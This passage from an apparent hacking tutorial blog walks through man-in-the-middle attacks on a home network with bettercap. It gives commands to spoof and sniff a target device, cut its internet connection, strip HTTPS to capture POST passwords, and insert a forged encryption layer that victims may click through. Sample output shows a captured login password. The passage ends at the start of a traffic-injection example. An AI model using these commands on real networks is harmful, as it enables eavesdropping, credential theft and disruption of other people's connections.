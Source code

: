 What you created above, will be your basic command, which will redirect all trafic, but will do nothing with it. Not even look at it. **If you want to see of the traffic that is going trough, add -X (sniffer) to the command.**

<pre>sudo bettercap -I wlan0 -T 192.168.1.14, 192.168.1.9 -X</pre>

<pre class="output">[I] Starting [ spoofing:✔ discovery:✘ sniffer:✔ tcp-proxy:✘ udp-proxy:✘ http-proxy:✘ https-proxy:✘ sslstrip:✘ http-server:✘ dns-server:✘ ] ...

[I] [wlan0] 192.168.1.17 : B8:27:EB:D8:B4:4A / wlan0 ( Raspberry Pi Foundation )
[I] Found hostname dsldevice for address 192.168.1.1
[I] [GATEWAY] 192.168.1.1 : 30:91:8F:9F:71:3C / dsldevice ( Technicolor )
[I] [TARGET] 192.168.1.14 : 10:02:B5:D6:08:8A ( Intel Corporate )
[192.168.1.14 &gt; 52.85.61.198:https] [HTTPS] https://api-v2.soundcloud.com/
[192.168.1.14 &gt; 52.85.61.198:https] [HTTPS] https://l9bjkkhaycw6f8f4.soundcloud.com/
[192.168.1.14 &gt; 52.85.62.252:https] [HTTPS] https://cf-hls-media.sndcdn.com/
[192.168.1.14 &gt; 52.85.61.198:https] [HTTPS] https://l9bjkkhaycw6f8f4.soundcloud.com/
[192.168.1.14 &gt; 52.85.62.252:https] [HTTPS] https://cf-hls-media.sndcdn.com/
[192.168.1.14 &gt; 52.85.61.184:https] [HTTPS] https://api.soundcloud.com/
[192.168.1.14 &gt; 52.85.62.252:https] [HTTPS] https://cf-hls-media.sndcdn.com/</pre>

As you can see, I was listening to music of the _soundcloud-_website on that device. We can also see the protocol used etc. Now from here we can enable options to inject, alter, kill or redirect traffic. Another powerful and easy attack to show is to **kill the traffic, which will make the device unable to connect to the internet or any other network-resource:**

<pre><span class="pre">sudo bettercap -T</span> <span class="pre">192.168.1.14</span> <span class="pre">--kill </span></pre>

You can also strip encryption (HTTPS, HSTS) till a certain extend by using other built-in techniques like _ssl-strip_: (the _-P POST_ is to filter on the protocol POST, where passwords will reside if found)

<pre>sudo bettercap -T 192.168.1.14 --proxy -P POST</pre>

<img class="alignnone wp-image-978 size-full" src="https://i2.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.46.46.png?resize=640%2C313&#038;ssl=1" alt="" srcset="https://i2.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.46.46.png?w=775&ssl=1 775w, https://i2.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.46.46.png?resize=300%2C147&ssl=1 300w, https://i2.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.46.46.png?resize=768%2C376&ssl=1 768w, https://i2.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.46.46.png?resize=640%2C313&ssl=1 640w" sizes="(max-width: 640px) 100vw, 640px" data-recalc-dims="1" />

As you can see (above) a password was captured:

<pre class="output">[REQUEST BODY]

RedirectUrl : http://www.standaard.be/
 EmailOrUsername : username
 Password : hellooooo</pre>

If you can&#8217;t strip the encryption (better safety), you can replace it with your own encryption layer. This will give a popup or alert on most modern browsers, but often victims will still go through, giving you a peek in that connection. Here is the command:

<pre>sudo bettercap -T 192.168.1.14 --proxy --proxy-https -P POST</pre>

<img class="alignnone wp-image-977 size-full" src="https://i0.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.43.19.png?resize=640%2C422&#038;ssl=1" alt="" srcset="https://i0.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.43.19.png?w=701&ssl=1 701w, https://i0.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.43.19.png?resize=300%2C198&ssl=1 300w, https://i0.wp.com/demgeeks.com/wp-content/uploads/2017/10/Screenshot-2017-10-31-at-11.43.19.png?resize=640%2C422&ssl=1 640w" sizes="(max-width: 640px) 100vw, 640px" data-recalc-dims="1" />

Now if we have control over the unencrypted data, we can change it in any way we want. Some easy examples for injection attacks are the following, you can still add the force https option to these:

**Make all pages pink:**
